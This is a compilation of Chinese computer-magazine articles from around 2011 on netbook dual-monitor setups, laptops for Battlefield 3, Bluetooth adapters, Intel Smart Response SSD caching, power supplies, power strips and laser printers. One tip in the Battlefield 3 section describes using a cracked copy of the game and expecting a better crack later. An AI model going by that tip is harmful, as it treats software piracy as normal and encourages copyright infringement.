前文提过，只有10英寸屏幕，且分辨率只有1024×600像素的上网本实在不适合长时间办公，当程序打开稍多就会相互遮挡，想同时聊QQ、PS修图、查资料，只能以牺牲每个窗口的显示面积为代价，或在多个窗口来回切换，好不麻烦。当你为笔记找到合适的“显示搭档”后，上述问题就迎刃而解了，让上网本轻松实现“一心两用”。现在的上网本基本都标配HDMI和VGA接口，可以轻松和显示器或液晶电视相连（建议用HDMI，除了图像清晰以外还可直接调用显示设备内的音箱而无需连接音频线）。连接好后先在桌面鼠标右键选择“屏幕分辨率”，在多显示器选项中选择“扩展这些显示”，接下来显示器的画面就成为上网本屏幕的一部分了，你可以将PS窗口直接拖到外接的显示器上，在上网本自身的屏幕上聊QQ、看网页。

上网本的分辨率多为1024×600，但显示器分辨率则高达1920×1080，在扩展模式下，当鼠标从显示器屏幕移动到笔记本屏幕时会因为纵向分辨率的不对应而出现鼠标被“卡住”的情况。解决方法有二：第一种是在“屏幕分辨率”设置中拖动1号屏幕让其上边或下边与2号显示器对齐，这样在移动鼠标时只需贴着上下边移动就可以了。第二种则可以将外接显示器的分辨率调整和笔记本屏幕相近，虽然显示效果会有所牺牲但可以解决鼠标被卡住的问题。此外，扩展模式会让显示范围扩大，如果鼠标移动速度变慢了，可以进入控制面板，打开“鼠标”属性窗口，切换到“指针选项”，根据实际需要拖动指针移动速度的滑块。

### 小提示：双显示器如何快速切换

想将程序窗口在两个显示设备间移动，每次都需要拖拽一下很不方便。此时我们可以通过“UltraMon”（下载地址：http://www.skycn.com/soft/13077.html）辅助主副显示器之间的窗口切换。安装该工具并打开后，系统中的大部分软件除了原来的最大化、最小化和关闭按钮外，还会增加两个按钮，单击“双显”按钮会让软件在两个屏幕中显示，也就是软件的整个界面会显示在两个屏幕中，单击“切换”按钮可以让软件在另外一个显示器中显示，非常方便。

通过快捷键切换屏幕会更轻松

总之，我们可以将上网本视为带屏幕的HTPC，自身就能完成普通笔记本的工作（游戏除外），接上显示器或电视就能获得感官上质的飞跃。与普通笔记本相比，上网本的采购成本极低，而23英寸的全高清显示器价格也不贵，花同样的钱，上网本和显示器套装的组合可以胜任更多的使用环境，而代价仅仅是游戏性能的缺失。只要你不是游戏迷，这个缺点还是可以直接PASS掉的吧？

## “战地”求生记 哪些笔记本可以挑战《战地3》

随着《战地3》这款大作的发售，让钟爱FPS游戏的玩家们大呼过瘾。在这足以匹敌《使命召唤》系列的大作面前，哪些笔记本才能在危险的“战地”中求生呢？

> 小知识：
《战地3》是由DICE开发的最新FPS大作，采用了支持DirectX 11的“寒霜2”引擎，拥有极为真实的光照系统和物理效果，其渲染的场景已到近乎乱真的地步，视觉效果堪称绝赞。此系列游戏以真实的战争场面，任意的武器操作以及单人或多人的对战模式让玩家爱不释手，而出色的画面效果以及剧情任务也让游戏性有了更好的提升。

笔者感觉，《战地3》中枪声和爆炸的音效很真实，画面质量不逊于《使命召唤》系列，只是游戏中缺少配乐，在很多场景对气氛烘托的不够，但总体感觉绝对不失大作风范。如果你的笔记本运行游戏中出现了卡顿，建议在设置的画面选项中将“贴图品质”改为中看看。

## 战地生存 显卡是关键

由于《战地3》采用了全新引擎，这就对电脑的硬件提出了更高的要求。好在笔记本的标准分辨率为1366×768像素，这就减轻了一定的硬件压力。根据笔者的经验，想流畅运行这款游戏，4GB内存与GT540M或HD6700M系列的显卡是必不可少的。以GT525M和HD6630M为例，它们采用了与更高档的GT540M和HD6730M等型号相同的核心，性能较入门级的GT520M或HD6470M强很多，但由于默认的核心/显存频率较低，在《战地3》中的表现会稍逊一筹。至于像英特尔SNB处理器和AMD A系列APU内部集成的显卡就不太适合玩这款大作了，即便是低画质游戏速度也多在20fps左右徘徊，严重影响了游戏心情。

> 小提示：
笔者的笔记本支持Optimus智能显卡切换技术，但在玩《战地3》时非常卡顿，搞了半天才发现原来是驱动程序并没有为这款游戏自动调用独立显卡造成的。解决方法很简单，桌面鼠标右键进入“NVIDIA控制面板”，点击左侧“管理3D设置”，然后点击右侧窗口中的“程序设置”选项卡，点击“添加”按钮，再找到《战地3》的执行程序“bf3.exe”，手动设置让其以“高性能NVIDIA显卡”的模式运行，最后点击“应用”即可。如果你的笔记本采用了SNB处理器与AMD独显的组合，在“配置可交换显示卡”的界面同样可手动指定以独显的模式运行游戏。

## 处理器够用就好

与显卡相比，《战地3》对处理器的要求还是比较宽松的，在其它配置相似的情况下，酷睿i3和i5在游戏中的速度差距不大（3fps左右），因此笔者的建议是，在预算一定的情况下可优先挑选配备更高端显卡的机器，比如i3-2330M+GT540M在《战地3》中的表现就会明显高于i5-2410M+GT525M的组合。至于处理器则可以英特尔秋季发布的新版SNB为主，比如酷睿i3-2330M、i5-2430M等，它们的默认主频要比i3-2310M和i5-2410M高一些，其内部集成核芯显卡的频率也有小幅提升，性能相对更为出众。

| 型号     | 主频   | 睿频   | 核心数 | 三级缓存 | 核芯显卡频率       |
|----------|--------|--------|--------|----------|--------------------|
| i5-2450m | 2.5GHz | 3.1GHz | 2      | 3MB      | 650MHz~1.3GHz      |
| i5-2430m | 2.4GHz | 3.0GHz | 2      | 3MB      | 650MHz~1.2GHz      |
| i3-2350m | 2.3GHz | 不支持 | 2      | 3MB      | 650MHz~1.15GHz     |
| i3-2330m | 2.2GHz | 不支持 | 2      | 3MB      | 650MHz~1.1GHz      |

看到这里，相信大家对《战地3》以及适合玩这款大作的配置已经有了一定的认识，接下来笔者就向大家推荐一些采用了典型配置的笔记本。

三星NP-Q460-JS08CN
基本配置：14英寸+i3-2330M+4GB+640GB+GT540M
GT540M是目前最被厂商青睐的显卡型号，除了能为笔记本带来强大游戏性能的同时还能为厂商解决采购成本。在《战地3》中，GT540M与酷睿i3-2330M的搭配可以在1366×768中等画质下运行游戏，只是复杂场景时速度会降到24fps以下而出现卡顿的现象。如果你想让游戏始终保持流畅，则可适当降低画质或调整分辨率。

三星Q460采用了金属材质的机身设计，就做工而言较同价位产品更为出色。这款产品最大的亮点在于配备了无缝一体化设计的无边框黑晶全景屏幕，在脆弱的屏幕面板前嵌入了一层玻璃面板。

同方钢铁侠X46H
基本配置：14英寸+i5-2410M+4GB+750GB+GT550M
GT550M的流处理器和GT540M/GT525M一样，但在高频率的帮助下其性能表现也是更为抢眼的，在中等画质下可以获得比GT540M显卡更流畅的体验。

同方X46H采用了金属材质的外壳和掌托，均衡的配置也带来了不错的游戏体验。这款产品的卖点在于采用了ODC智能扩展技术，光驱的位置可轻松置换第二块电池、硬盘或减重模组使用，非常人性化。

华硕N45SF
基本配置：14英寸+i5-2410M+4GB+640GB+GT555M
GT555M是NVIDIA较高前的移动显卡型号，144个流处理器可带来远超GT540M或GT550M的性能表现，可以在1366×768像素中等特效下流畅运行《战地3》，即使是激烈的战斗场景下也能保证30fps左右的速度。

| 产品                     | 基本配置                                      | 参考价格 |
|--------------------------|-----------------------------------------------|----------|
| ACER AS4750G-2432G50mnkk | 15.6英寸 + i5-2430M + 2GB + 500GB + GT540M    | 3899元   |
| 华硕A53XI231SV-SL        | 15.6英寸 + i3-2310M + 2GB + 500GB + GT540M    | 3899元   |
| 戴尔Inspiron14R          | 14英寸 + i3-2310M + 2GB + 500GB + HD6630M     | 3899元   |
| 东芝L750-T09S            | 15.6英寸 + i3-2310M + 2GB + 640GB + GT525M    | 3999元   |
| ThinkPad E520 (1143-ASC) | 15.6英寸 + i3-2330M + 2GB + 320GB + HD6630M   | 4099元   |

> 小提示：
由于笔者下载的是最早破解版的《战地3》游戏，运行期间会出现很多Bug，比如运行游戏报错（需重新安装最新版英特尔显卡驱动，再安装独立显卡驱动），或者经常自动跳出游戏（需先用鼠标右键选中《战地3》的快捷方式，然后依次进入属性→兼容性，手动将其设置为“Windows 7”或“Vista SP2”模式，并以管理员身份进行游戏），再在游戏设置的画面选项里选择“自动模式”。当您拿到本刊时可能已经出现了完美的破解版，届时请参考游戏安装包中最新的说明文件。

惠普DV4-3126TX
基本配置：14英寸+i5-2430M+4GB+640GB+HD6750M（GDDR5）
AMD HD6700M系列的特点在于核心频率更高，当与GDDR5高速显存搭配时更可释放强悍的性能。以HD6750M和HD6670为例，可以在高画质下以35fps以上的速度流畅运行《战地3》，即便是复杂场景也很少出现24fps以下的情况，整体流畅度较搭配GT555M显卡的产品还出色。

| 项目               | HD6000系列 | HD6600/HD6700系列 |
|--------------------|------------|-------------------|
| 流处理器           | 160        | 480               |
| 纹理单元           | 8          | 24                |
| Z轴/模板ROP单元    | 16         | 32                |
| 色彩ROP单元        | 4          | 8                 |
| 引擎时钟频率       | 480MHz~800MHz | 500MHz~725MHz |
| 显存频率           | 800MHz~900MHz | 800MHz~900MHz |
| 显存位宽           | 64bit      | 128bit            |
| 显存类型           | GDDR5/DDR3 | GDDR5/DDR3        |

| 型号       | GT520m | GT520mx | GT525m | GT540m | GT550m | GT555M               |
|------------|--------|---------|--------|--------|--------|----------------------|
| 流处理器   | 48     | 48      | 96     | 96     | 96     | 144                  |
| 处理器频率 | 1480MHz| 1800MHz | 1200MHz| 1344MHz| 1480MHz| 1506MHz              |
| 显存频率   | 900MHz | 900MHz  | 900MHz | 900MHz | 900MHz | 1569MHz              |
| 显存位宽   | 64bit  | 64bit   | 128bit | 128bit | 128bit | 192bit（DDR3）或128bit（GDDR5） |








## “牙”好功能才够强 教你用好笔记本的蓝牙功能

如今笔记本性能是越来越强,而且价格也更为低廉。即便是预算有限的用户也能挑到一款性能够用的产品。但是,在我们学会通过合理的硬件搭配挑选超值笔记本的同时,往往会忽略笔记本本身应具备的更实用功能,而蓝牙就是首当其冲的“弃儿”。

## 被忽略的蓝牙

现在的笔记本厂商已经摸透了用户的心理:难以阻挡对“高性能+低价格”产品的诱惑。因此,大家纷纷在4500元以下的价位区间布下重兵,像GT540M和HD6630这类中高端显卡遍地都是。单就性能而言,4000元和6000元的笔记本之间似乎已经没什么差别了。不过,厂商并不是活雷锋,高性能硬件的成本自然要从其它方面找回来,因此出于节省成本的考虑,绝大多数厂商都会将容易被用户忽略的蓝牙模块给“阉割”掉。其实,与现在常被厂商鼓吹的“XX扬声器和音效”,“真高清摄像头”等卖点相比,蓝牙功能的实用性更高。

## 蓝牙可以带来什么

和iPhone一样,苹果的键鼠外设同样吸引着无数“果粉”,可惜苹果钟爱蓝牙技术,想在笔记本上使用自然就少不了蓝牙功能的支持。此外还有很多专业的外设都只有蓝牙的无线版本,想用这些装备,没有蓝牙的笔记本可就悲剧了(见图)。



通过蓝牙功能,可以让笔记本“同时”与手机、蓝牙耳机、蓝牙键鼠和蓝牙音箱等设备无线连接,可以大大减轻USB接口数量的负担。可能在很多同学眼中,蓝牙的意义无非是连接外设,或者取代数据线,在笔记本上无线管理手机上的数据。如果你也这么想就太小看蓝牙功能的实用性了,下面笔者就介绍一种通过蓝牙实现的好玩功能。

> 小知识: 笔记本和手机在蓝牙配对时一定要处于联网状态,这样Update可以自动搜索并安装相关的驱动程序,否则很多功能会无法实现。此外,根据手机品牌和型号的不同,在Windows 7中蓝牙手机可以实现的功能也有少许差别(很多手机就不支持“呼叫此号码”功能)。如果你的设备采用了iOS、Android和塞班智能系统,利用第三方的蓝牙管理软件可以实现更丰富的功能,比如控制笔记本上的PPT(如“手机PPT播放器”: http://tinyurl.com/bsqm9gg)。

| 类型 | 蓝牙版本 | 芯片品牌 | 特色 | 价格 | 推荐产品 |
|------|----------|----------|------|------|----------|
| 廉价型 | V2.0或V2.0+EDR | CSR41814或其他 | 价格便宜 | 8~30元 | 水木行BT520 |
| 主流型 | V2.1+EDR | CSR0401 | 比较稳定 | 25~50元 | 水木行BT560i |
| 中档型 | V2.1+EDR | BCM2046 | 可软件升级到V3.0+EDR | 60~80元 | 鼎新图DXT28 |
| 高档型 | V3.0+EDR | BCM2070 | 默认就为V3.0标准 | 130元左右 | AirLive BT-302USB |

## 笔记本如何“镶牙”

如果你的笔记本不带蓝牙功能,我们可以自行为其“镶牙”。目前给笔记本安装蓝牙模块有两种方式,其一是购买一个mini PCI-E的蓝牙模块和天线,拆开笔记本安装到主板上的mini PCI-E插槽上;其二是购买USB接口的蓝牙适配器,大小和2.4G无线键鼠常用的Nano接收器相似,小巧方便。对普通用户而言,第一种方法难度太高,因此笔者推荐大家通过蓝牙适配器的形式,为笔记本赋予蓝牙功能。

在淘宝上搜“蓝牙适配器”你会看到无数条销售信息,但从本质而言,我们可以通过定位给这些适配器分分类:

“廉价型”和“主流型”的蓝牙适配器多采用CSR芯片,优势在于性价比。此类产品的价格最低只有8元左右,但信号的稳定性和有效距离往往不够理想,笔者推荐选择“水木行”品牌的产品,采用CSR41B14芯片的型号在20元出头,性价比很不错,可以保证同时与多个蓝牙设备稳定相连。

如果你有支持蓝牙V3.0的手机或其它设备,则可以考虑采用博通BCM2046芯片的“中档型”适配器,虽然这个芯片默认为V2.1+EDR标准,但可以通过驱动升级的方式免费变身蓝牙V3.0,从而小幅提升传输速度。“高档型”的适配器多以博通BCM2070芯片为主,默认蓝牙V3.0,但由于BCM2070只是单独的蓝牙芯片并没有集成WiFi模块,所以并不支持V3.0+HS,实际速度与BCM2046升级蓝牙V3.0差别不大,所以对普通用户而言,选择采用BCM2046芯片的“中档型”适配器就足够了。笔者推荐“鼎新图”DXT28,这款产品最大的特色在于“一键对码”功能,对台式机用户有奇效:简单设置后,电脑开机在进入系统之前就能用蓝牙键盘进入BIOS修改设置,而普通蓝牙适配器只有进入操作系统后才能识别并使用蓝牙键盘。

> 小提示: 现在淘宝上也有很多25元左右的蓝牙V3.0适配器,质量参差不齐。如果你的预算确实有限,买此类产品时尽量挑选信誉高的商家,并看看买家的评价再出手。最后,很多蓝牙适配器随机还会有“IVT”和“Widcomm”蓝牙软件,可更方便地管理蓝牙设备和使用相关功能,购买时别忘了向商家索取哦。

## 蓝牙V3.0和V3.0 + HS差别可大了

蓝牙V3.0和蓝牙V3.0+HS在硬件上就存在差别,单纯的蓝牙V3.0实际就是V2.1+EDR的“马甲”,只有支持HS补充协议,才能调用蓝牙转WiFi模块传输的管理接口功能。因此,单纯的蓝牙V3.0只是形式上的应用,重点是提高了节能和蓝牙音频特性,而V3.0+HS才是本质的“蓝牙3.0”,实现WiFi增速互传的高速效果。

很多笔记本都采用了博通(Broadcom)生产的BCM2070或BCM2046“单”蓝牙V2.1+EDR模块(比如联想Y460/Y560系列),通过升级最新版驱动就能免费升级到“蓝牙V3.0”,这也是为什么很多品牌上半年产品参数还是蓝牙V2.1+EDR,下半年却都变成了蓝牙V3.0的原因。但由于此模块只有单独的一颗蓝牙芯片(没有WiFi芯片),所以硬件不支持HS协议,升级驱动后也仅为V3.0+EDR标准,速度较V2.1+EDR提升有限。不过,随着蓝牙4.0技术的兴起,笔记本很可能直接跳过V3.0+HS而一步到位进入V4.0时代。目前苹果新MacBook Air(采用博通BCM4322 WiFi芯片+BCM20702蓝牙芯片的一体模块)、华硕ACER的Ultrabook新品(采用高通Atheros AR9485 WiFi芯片+AR3012蓝牙芯片的一体模块)等笔记本都开始支持蓝牙4.0功能,感兴趣的同学可以多多关注。

## 傻博士讲蓝牙

截至今日,蓝牙共有V1.1/1.2/2.0/2.1/3.0/4.0六个版本(见表1,高版本均向下兼容),其中V2.0/2.1+EDR是目前应用最广泛的版本。V3.0+HS利用“802.11 PAL”(协议适应层),实现了蓝牙转WiFi的一种增速传输方式,借用WiFi传输将最高数据传输率提高到了24Mbps,实际空闲功耗也有所降低。最新的V4.0+HS将传统蓝牙、低功耗蓝牙和高速蓝牙三种技术融于一身,已经趋于完美。

> 小提示: 我们可以这么理解:想支持蓝牙V3.0+HS或V4.0+HS,这就要求在一个无线模块的PCB板上同时嵌有蓝牙芯片和WiFi芯片,目前在笔记本上只有采用英特尔迅驰Wireless-N1030和迅驰Advanced-N6230等少数无线模块的产品才硬件支持蓝牙V3.0+HS,博通和高通也已经推出了蓝牙V4.0+HS模块。由于“HS”版的蓝牙模块需要更复杂的电路,所以鲜有外接的USB蓝牙适配器,而且价格也多在300元以上。

| 版本 | 速度 | 特点 |
|------|------|------|
| V1.1 | 721Kbps | 容易受到干扰而影响通讯质量 |
| V1.2 | 721Kbps | 增强了抗干扰跳频的功能，提升了兼容性 |
| V2.0/2.1+EDR | 2.1Mbps | 支持双工方式，可同时做语音通讯和数据传输 |
| V3.0+HS | 24Mbps | 速度大幅提升，实际空闲功耗明显降低 |
| V4.0+HS | 24Mbps | 瞬时启动，功耗更低，安全性更强，范围更广 |

表注：“EDR”和“HS”属于蓝牙技术的补充协议，EDR是增强速率的意思，HS则为高速HighSpeed。

## 500元就能享受TB级的固态硬盘 Intel Z68芯片组智能响应技术解析

SSD硬盘相对传统的机械硬盘在读写速度上有着压倒性的优势，但高高在上的价格和较低的容量却让我们犹豫不决，而今天Intel在Z68主板中首先提供的“智能响应”技术只需要花500元左右，就可以让你的TB级别传统硬盘也有固态硬盘的读写性能。

从原理看，最大化模式的速度要快一些，但风险也同样存在，如果在突发断电或者出现错误时，有可能你的重要数据还没有写回到机械硬盘，造成数据丢失，两种模式可根据实际情况进行选择。而增强模式下系统会同时把数据在机械硬盘以及SSD缓存中进行写入操作，保证数据的安全性；而在最大化模式中，系统会优先选择在SSD缓存中进行数据操作，在运行完毕之后才会把数据写回到机械硬盘。

想起换硬盘很多人都会感觉头疼，不仅要安装操作系统，原有的应用程序、数据文档、程序设置等等都需要重新来安装、配置，智能响应技术不会影响到现有的操作系统和应用程序，只需要把SSD固态硬盘安装好，并对软件进行简单的设置就可以使用了，非常方便。前一块金士顿30GB固态硬盘只要不到五百元。

### 什么是智能响应技术

今年IDF上，Intel在最新的Z68芯片组基础上推出了Smart Response智能响应技术（简称SRT），其工作原理是将一块小容量SSD硬盘与传统的机械硬盘同时使用，在SSD硬盘上开辟出一部分存储空间（最小为20GB，最大为64GB）来作为机械硬盘的缓存，从而让用户在体验方面，既享受到SSD硬盘的速度，又可以拥有TB级的存储空间，换句话说，只需要一块市价500元左右的小容量固态硬盘，安装在Z68主板上，可以让多年前购买的1TB老硬盘读写速度突然飙升至接近固态硬盘的性能。

值得注意的是，智能响应技术在缓存设置方面支持增强模式（Enhanced）以及最大化模式（Maximize）两种加速方式。

### 智能响应对程序启动速度的提升（参考值）

|                | PhotoShop CS5.5 | Dreamweaver CS5.5 | Illustrator CS5.5 | 系统启动 |
|----------------|-----------------|-------------------|-------------------|----------|
| 无智能响应     | 7.1秒           | 8.0秒             | 6.1秒             | 55.5秒   |
| 智能响应增强模式 | 5.0秒           | 5.5秒             | 3.9秒             | 35.8秒   |
| 智能响应最大模式 | 3.8秒           | 5.2秒             | 4.2秒             | 32.6秒   |

### 最大好处：使用简单方便

对于熟悉硬件的高手来说，智能响应可能不算是最好的方案（毕竟性能不能完全达到纯固态硬盘的级别），但它还有一项重要的意义：这是一种无需用户花心思管理的方案，你不需要关注这是软件程序还是高清电影，应该保存在固态硬盘还是传统硬盘，只需要在BIOS中把SATA模式设置为RAID，然后在Intel“快速存储技术”软件中开启一下这项功能即可，非常适合给根本不懂分区是什么的小白用户装机。

### 智能响应技术适合做这些

智能响应技术会给我们带来怎样的便利呢？什么样的用户会从中获益最大呢？针对智能响应技术安装方便、廉价的特点，以及小文件访问性能、多任务并发性能的优势，我们总结了以下几个解决方案：

#### 预算低，又想体验SSD性能的用户

Intel智能响应技术除了对芯片组有要求之外，对SSD固态硬盘和机械硬盘的型号都没有严格要求，也就是说在你原有机硬盘的基础上，只需要再选择一块小容量的固态硬盘就可以搭建这个解决方案了。因此，在理论上我们只要选择一款最小20GB的SSD硬盘就可以实现。

#### 想换SSD硬盘，又不想重装系统的用户

#### 游戏玩家，让游戏场景读取更快

SSD固态硬盘在文件读取速度方面，相比机械硬盘有较大的改善，从实际的游戏测试来看，无论是进入游戏，还是场景切换等方面都会有较为明显的速度提升，而且长时间运行下来，也会最大化地减少机械硬盘的使用频率，从而达到延长硬盘寿命，减小发热和功耗的目的。

#### 架设小型Web网站或论坛服务器

在小型服务Web网站或者论坛服务器中，硬盘最多的操作应该是寻址以及小文件的频繁读写操作了，据测试的数据表明，在512KB级别文件的读取操作中，智能响应技术达到了SSD的一半左右的性能；而在4KB文件随机读取方面，几乎已经和SSD的性能接近，甚至完全相同，可以看到，智能响应技术的这部分特点正好符合一些小型网站服务器的工作模式，可以最大化地提升服务器的存储性能。

智能响应技术是最新Z68芯片组所附带的一个较为实惠的功能，而且对固态硬盘的型号和品牌都没有限制，不像Intel的WiDi和My WiFi那样限定必须使用Intel的硬件，相对于目前的Raid以及混合存储硬盘来看，智能存储技术具有成本低、缓存容量大、组合灵活等多种优势，较为适合个人用户以及小型服务器来使用。

> （文/一条鱼）

## 夏天攒机 电源选择有学问

炎热的夏天对DIY玩家来说真是末日一般，除了显卡和CPU会因为发热而面临危险，电源方面也会受到很大的考验，今天就为大家提供一些夏天选购电源的注意事项。

为了让爱机顺利的度过炎热的夏季，大家选购电源要考虑的不仅仅是电源的功率、品牌，更需要注意的是电源的输入电压、元器件耐温、散热设计、转换效率这几个方面，下面笔者就为大家简单的介绍一下满足上述几点的电源应该如何选购。

首先是电源输入电压方面的选择，很多读者此时或许会有不解，我国市电的电压为220V 50Hz，但由于夏季炎热大功率降温设备大量使用（如空调、冷气扇等），许多地区已经不同程度上出现了电网超负荷的情况，所带来的后果就是市电的电压就会出现不同程度的偏移（飙升或下降），对于使用普通电源的主机而言，输入电压下降后普遍会出现电脑莫名其妙的蓝屏甚至死机，此时选购支持宽幅电压的电源则可以有效的避免此类情况的发生。

### 那么如何在购买的时候分辨出一款电源是否是宽幅电源呢？

1. 看介绍：很多电源在包装上会醒目的标识出支持宽幅电压的字样，甚至将产品名称设定为宽幅为卖点。（如航嘉宽幅王电源）
2. 看参数：在电源的包装盒或是电源本体的参数介绍区域通常会标识出这款电源是否为兼容宽幅的产品，电源铭牌中交流输入100-240V则意为可以在100V-240V的电压环境中使用。

想让爱机顺利度过炎热的夏季，仅考虑电压是不行的，接着我们需要考虑电源内部元器件、散热设计和转换效率。

### 考虑电源内部元器件、散热设计和转换效率的要点：

1. 内部元件：电源采用的元器件如果使用档次较高的产品，则会有较高的耐温和较低的阻抗，电容器如果使用耐温较高的产品，则出现爆浆的几率就大大降低，通常大品牌电源标配85℃耐温的电容器，比较好的产品配备的多为105℃耐温的产品。
2. 散热设计：电源在散热方面如果有特别设计（如内部散热片材质、形状、摆放位置，散热风扇选用等），那么就可以高效的将电源内部的热量排出，电源散热风扇采用特别设计，使电源内部也有了风道散热，针对特定区域加强散热。
3. 转换效率：我们使用的市电为交流电，而电脑硬件使用的为直流电，在交流电转换为直流电这一过程中会出现一定的损耗，这些损耗会以热能的形式表现出来，所以说转换效率不仅可以体现在电费上（转换效率越高损耗越小），同样也可以体现在电源发热上，目前鉴别电源转换效率如何可以参考80Plus国际认证，80Plus认证分为5个档次，分别为白牌、铜牌、银牌、金牌和白金牌，通过认证的产品可以在电源包装上冠以相应的奖牌作为划分效率等级的标识，大家可以登录80Plus官方网站进行查询。

经过一番介绍后，想必大家对于电源选购已经胸有成竹了，下面笔者就为大家推荐几款300W-500W可以清凉度夏天的电源产品作为参考。

### 推荐的300W-500W电源产品：

1. 金河田劲霸烈焰版：金河田的电源在中低端价位产品中很有市场，劲霸烈焰版电源内部用料余量较大，尤其主电容器耐温高达105℃，这常见于千瓦级别的电源产品中，此款电源官方报价为259元，电源效率尚可，售价便宜值得推荐。
2. 航嘉冷静王至尊版：航嘉冷静王系列产品诞生至今已有10个年头，期间不停有新品面世，航嘉最近发布了全新的冷静王至尊版，电源采用先进的双管正激构架，内部用料在400W电源里算得上顶尖，搭载14cm静音风扇可以确保电源度过酷夏，此款电源目前官方报价为450元，有一定的砍价空间。
3. 多彩白银时代450W：多彩电源之前一直搭配机箱销售，如今发力产品设计推出白银时代和青铜时代两个全新产品线，白银时代450W采用了模组化接线设计，产品通过80Plus铜牌认证，散热风扇工作状态有蓝色炫光，此款电源官方报价为498元，有砍价空间。
4. 先马黑魅450W：沉寂了一段时间的先马电源重出江湖，先马黑魅450W电源作为抢回市场的产品，在做工用料方面均有较大提升，但笔者推荐它最大的理由在于售价，官方报价为288元对于一款额定450W功率的电源来说性价比十足。

> （文/子呆）

## 大万用插座大限已至 购买需注意

2010年5月底国家标准化管理委员会（国标委）曾经发布文件，规定2010年6月1日起生产的家用和类似用途插头插座转换器产品必须符合GB 2099.3-2008《家用和类似用途插头 第2部分：转换器的特殊要求》中的规定，而此后生产的家用插座如果不符合要求均被视为不合格产品。

在这里，我们大家都很熟悉的大万用插座就属于不符合新的安全标准的产品，将要被无情抛弃了，鉴于大万用插座的生产量非常大，国标委将大万用插座的销售最后期限延长到了2011年6月1日，也就是说按照规定，今年6月1日就不允许在各种渠道销售大万用插座了，如果你在市场上看到还有此类产品在销售中，一定要注意了——要买新国标的插座。

## 办公室里的战争 三款普及型激光打印机全方位PK

小型黑白激光打印机可以说是办公室里必不可少的设备，它具有喷墨打印机无法企及的打印质量和速度，符合现代社会快速的工作节奏，同时其价格早已能为大众所接受，成为办公采购时的热点。今天我们就选择几款比较热门的产品来进行PK，作为大家选购的参考。

值得注意的是，本次我们加入了一款国产品牌的奔图激光打印机P2050，这也是首个真正具备国产血统的打印机。另外两款惠普LaserJet Pro P1606dn和佳能Laser Shot LBP6200D也是价位性能近似、市场定位也相同的机型，都是针对小型办公室的激光打印机。

### 机身 PK

首先我们直观来了解一下这3款产品。奔图P2050与惠普LaserJet Pro P1606dn采用黑色亚光外壳，佳能Laser Shot LBP6200D采用白色亚光外壳，都属于典型的商务色系产品。3款产品都设计得较为紧凑，但奔图P2050略占优势，其底面面积（占地面积）最小，重量也最轻。此外，它们均把硒鼓设计在传统位置，拉开前面板即可更换，用起来比较简单。佳能Laser Shot LBP6200D与惠普LaserJet Pro P1606dn整体机身较高，因为它们都提供了250页进纸仓。

3款产品均提供了连接电脑用的USB接口，但只有惠普LaserJet Pro P1606dn提供了网卡，同时，惠普LaserJet Pro P1606dn还配备了双面打印单元，10页多用途进纸槽，佳能Laser Shot LBP6200D也提供了双面打印单元，奔图P2050只能完成手动双面打印任务。

### 性能 PK

打印速度方面，佳能Laser Shot LBP6200D与惠普LaserJet Pro P1606dn的表现不相上下，均以25ppm的速度超越了仅具备20ppm的速度的奔图P2050。值得一提的是，惠普LaserJet Pro P1606dn配备了32MB内存，其他两款产品仅配备了8MB内存，在打印页面信息量较大的图文混排、图像文档时，惠普LaserJet Pro P1606dn会表现得更加突出。

分辨率方面，佳能Laser Shot LBP6200D的标称分辨率最好，其实际打印效果也不错，用它打印的2磅文字也清晰可见。用其它两款打印机打印的样张上只能识别出大于4磅规格的文字。

所以，如果用户希望快速得到足够清晰的文档，佳能Laser Shot LBP6200D是最佳选择。

此外，值得一提的是，奔图P2050的月打印负荷量高达20000页，另两款产品的月打印负荷量仅为8000页，但这种数据仅供参考，其实际意义不大。

### 功能 PK

在功能方面，惠普LaserJet Pro P1606dn明显胜出其他两款产品一筹。它在接口、配置方面的优势具体表现为功能上的优势：网卡让它可以便捷地连入局域网使用，双面打印单元让它可以便捷地输出双面文档，10页多用途进纸槽让它在处理特殊介质时游刃有余，250页进纸仓让它在处理大量文档时不用频繁换纸。配备了双面打印单元、250页进纸仓、单页特殊介质进纸器的佳能Laser Shot LBP6200D则略逊色一些，奔图P2050则只提供了150页进纸仓、单页特殊介质进纸器。所以，对产品功能要求较高的用户应该优先选择惠普LaserJet Pro P1606dn。

在这里，你或许觉得自己已经对这三款产品有了全面的了解，做出选择并不困难了。不过别急，我们还没有弄明白它们的最重要特性——耗材成本呢！当然，你可能觉得，为了打印单页文档多花一两毛钱，这只是毛毛雨而已。但是，如果你认真地关注过你所在单位的打印机的使用情况，你就不会有这种想法了。假设全单位每天只打印100页文档，一年约有250个工作日，全年就需打印25000页文档。如果选购了打印单页文档需多花一毛钱的打印机，那么就意味着它在一年内会让耗材成本提升2500元。这笔额外的费用高于选购本次对比测试中的任何一台打印机的成本。

由于本次对比测试选取的三款打印机均采用鼓粉一体化设计，所以计算其耗材成本相当简单。奔图P2050的大容量硒鼓型号为PD-100H，其售价是429元，可打印2300页覆盖率为5%的ISO标准样张，折算下来其单页文档打印成本（仅计算碳粉，下同）仅为0.12元。佳能Laser Shot LBP6200D的硒鼓型号为CRG326，其售价是500元，可打印2100页覆盖率为5%的ISO标准样张，折算下来其单页文档打印成本为0.24元。惠普LaserJet Pro P1606dn的硒鼓型号为CE270A，其售价是560元，可打印2100页覆盖率为5%的ISO标准样张，折算下来其单页文档打印成本为0.27元。

所以，对于注重耗材成本的用户来说，奔图P2050是最佳选择，之前它在性能、功能等方面的劣势都可以忽略不计。毕竟，省钱才是硬道理。

### 服务 PK

最后，我们关注一下厂商各自为这3款产品提供的服务水平。这3家厂商均有全国统一的客服热线，使用中遇到问题可以及时拨打热线进行咨询。不过，它们所能提供的服务水平仍存在一定的差距。来自惠普与佳能的这两款产品只拥有一年保修，而奔图P2050拥有两年保修。此外，目前市售的头一批奔图P2050为“上市纪念版”，买到“上市纪念版”奔图P2050的用户可以在7月31日之前以8折的优惠价购买奔图原装耗材，这意味着，奔图P2050对关注服务质量的用户也存在不小的吸引力。

### 国产激打另一优势

此外，奔图P2050为完全自主知识产权产品，在适用范围上还有一大优势——信息安全。这并不是危言耸听，实际上在很多涉及国家或者军事机密的单位中，办公设备都有很严格的信息安全要求。例如他们的电插板必须要专用的，显示器也不能用液晶的，而激光打印机由于内部构造的原因，也会成为防泄密的重点。

奔图这个品牌可以说正好是为此而生的，其从芯片到内部操作系统均为国内自主设计的，所以P2050是最适合机关、部队等涉密单位采购的产品。

